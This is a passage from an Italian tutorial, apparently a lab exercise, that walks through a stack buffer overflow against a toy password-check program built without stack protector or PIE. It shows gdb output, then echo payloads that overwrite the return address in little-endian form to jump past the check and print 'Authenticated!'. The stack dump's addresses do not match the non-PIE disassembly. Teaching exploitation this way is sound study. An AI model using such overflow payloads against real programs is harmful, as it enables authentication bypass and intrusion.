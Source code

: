 **Caso 1**: disabilitiamo PIE, e questa volta anche lo _stack protector_:
```bash
gcc stack-pwd.c -o stack-pwd -fno-stack-protector --no-pie --static
```

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400bc7 <+0>:     push   rbp
   0x0000000000400bc8 <+1>:     mov    rbp,rsp
   0x0000000000400bcb <+4>:     sub    rsp,0x10
   0x0000000000400bcf <+8>:     mov    DWORD PTR [rbp-0x4],edi
   0x0000000000400bd2 <+11>:    mov    QWORD PTR [rbp-0x10],rsi
   0x0000000000400bd6 <+15>:    mov    eax,0x0
   0x0000000000400bdb <+20>:    call   0x400b6d <checkpassword>
   0x0000000000400be0 <+25>:    test   eax,eax
   0x0000000000400be2 <+27>:    je     0x400bf8 <main+49> # salto
   0x0000000000400be4 <+29>:    mov    edi,0x49245e # Authenticated
   0x0000000000400be9 <+34>:    call   0x410410 <puts>
   0x0000000000400bee <+39>:    mov    edi,0x0
   0x0000000000400bf3 <+44>:    call   0x40e9c0 <exit>
   0x0000000000400bf8 <+49>:    mov    edi,0x49246d # Wrong
   0x0000000000400bfd <+54>:    call   0x410410 <puts>
   0x0000000000400c02 <+59>:    mov    edi,0x1
   0x0000000000400c07 <+64>:    call   0x40e9c0 <exit>
```

Vogliamo saltare all'indirizzo `0x0000000000400be4` per capire quanti byte bisogna inserire per eseguire un overflow controlliamo lo stack con gdb:
```bash
# spazio per le variabili usate
0000| 0x7fffffffe590 --> 0x7ffff7de3b40 (<_dl_fini>:    push   rbp)
0008| 0x7fffffffe598 --> 0x0

0016| 0x7fffffffe5a0 --> 0x7fffffffe5c0 --> 0x5555554008a0 (<__libc_csu_init>:  push   r15) # old rbp
0024| 0x7fffffffe5a8 --> 0x555555400861 (<main+25>:     test   eax,eax) # indirizzo di ritorno
```

Dobbiamo quindi inserire 
```bash
# 16 A, sovrascrivo l'ultimo byte del vecchio rbp con 0x00
# in questo caso il programma non crasha perchè il main è semplice
# e non usa lo stack in quanto non usa variabili locali
echo -e "AAAAAAAAAAAAAAAA" | ./stack-pwd
Insert password: Wrong password!

# con 23 A sovrascrivo completamente il vecchio rbp, e notiamo che
# il programma ancora non crasha, questo perchè il main non ci fa
# più nulla con quel indirizzo, infatti esegue una print e poi esce
echo -e "AAAAAAAAAAAAAAAAAAAAAAA" | ./stack-pwd
Insert password: Wrong password!

# 24 A
echo -e "AAAAAAAAAAAAAAAAAAAAAAAA" | ./stack-pwd
Insert password: Segmentation fault
```
ora siamo allineati sull'indirizzo di ritorno, per cui possiamo aggiungere l'indirizzo a cui vogliamo andare, ricordando che dobbiamo inserire l'indirizzo in **little-endian**, per cui:
```bash
echo -e "AAAAAAAAAAAAAAAAAAAAAAAA\xe4\x0b\x40\x00\x00\x00\x00\x00"
| ./stack-pwd
Insert password: Authenticated!
```
